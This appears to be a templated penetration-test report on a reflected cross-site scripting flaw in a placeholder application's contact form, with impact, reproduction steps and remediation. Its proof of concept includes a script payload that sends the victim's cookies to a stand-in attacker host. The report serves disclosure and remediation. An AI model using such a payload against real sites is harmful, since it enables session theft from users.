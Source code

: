# Penetration Testing Writeup: Reflected XSS in Form Input

## Executive Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was found in [Target
Application]’s form submission process during a penetration test. This
vulnerability allows attackers to inject malicious scripts via form inputs,
which are reflected in the response, compromising user security. This report
details the issue and provides remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Reflected
- **Severity**: High
- **Affected Component**: Contact form submission
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/contact`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 22, 2025

### Description

The contact form does not sanitize user inputs before reflecting them in the
response page. This allows attackers to inject scripts that execute when the
response is rendered in the victim’s browser.

### Impact

- **Session Theft**: Attackers can steal user cookies.
- **Phishing Attacks**: Fake forms can capture credentials.
- **Data Leakage**: Sensitive form data can be exfiltrated.
- **Reputation Harm**: Defacement can damage trust.

### Proof of Concept

1. Submit the contact form with the name field:
   `<script>alert('Reflected XSS');</script>`.
2. Observe an alert box on the response page.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to `https://[target-application]/contact`.
2. Enter `<script>alert('Reflected XSS');</script>` in the name field.
3. Submit the form and confirm the alert.

## Remediation Recommendations

1. **Input Validation**:
   - Restrict form inputs to expected characters.
2. **Output Encoding**:
   - Encode outputs (e.g., `<` to `&lt;`) before rendering.
3. **Content Security Policy**:
   - Use CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Coding**:
   - Train developers on XSS prevention.
5. **Regular Testing**:
   - Conduct periodic security assessments.

## Conclusion

The Reflected XSS vulnerability in the contact form of [Target Application]
requires urgent remediation to protect users and maintain trust.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Form XSS Alert](https://example.com/images/form-xss-alert.png)
